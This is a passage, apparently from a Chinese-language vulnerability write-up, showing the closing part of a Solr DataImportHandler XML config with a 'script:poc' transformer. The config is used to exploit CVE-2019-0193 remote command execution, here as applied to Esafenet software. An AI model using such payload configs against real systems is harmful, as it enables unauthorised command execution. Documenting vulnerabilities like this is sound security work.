 ```
        stream="true"
        name="entity1"
        datasource="streamsrc1"
        processor="XPathEntityProcessor"
        rootEntity="true"
        forEach="/RDF/item"
        transformer="script:poc">
             <field column="title" xpath="/RDF/item/title" />
    </entity>
</document>
</dataConfig>
```

这个漏洞实际是CVE-2019-0193 Apache Solr DataImport远程命令执行漏洞在亿赛通中的应用。具体漏洞分析可参考CVE-2019-0193。


